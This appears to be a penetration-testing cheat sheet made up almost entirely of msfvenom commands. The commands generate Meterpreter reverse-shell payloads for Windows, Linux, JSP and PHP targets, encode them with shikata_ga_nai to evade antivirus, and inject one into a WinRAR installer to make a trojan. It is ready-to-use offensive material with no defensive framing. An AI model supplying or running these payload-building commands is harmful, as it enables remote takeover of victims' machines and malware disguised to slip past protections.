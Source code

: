 ```
msfvenom --list payloads
msfvenom --list formats
msfvenom --list encoders

# Win 32bit
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x86>.exe

# Win 64bit
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x64>.exe

# Linux 32bit
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x86>

# Linux 64bit
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x64>

# Win 32bit + shikata_ga_nai encoded
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Use more encoding iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Linux 32bit + shikata_ga_nai encoded
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f elf > <PAYLOAD_ENCODED_x86>

# Inject into Portable Executables
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-621.exe > winrar.exe

# JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp #TomCat content management system 

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\                   #PHP Web Application
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**MSF Staged and Non Staged Payload**

```
# MSF STAGED Payload
windows/x64/meterpreter/reverse_tcp

# MSF NON-STAGED Payload
windows/x64/meterpreter_reverse_https
```
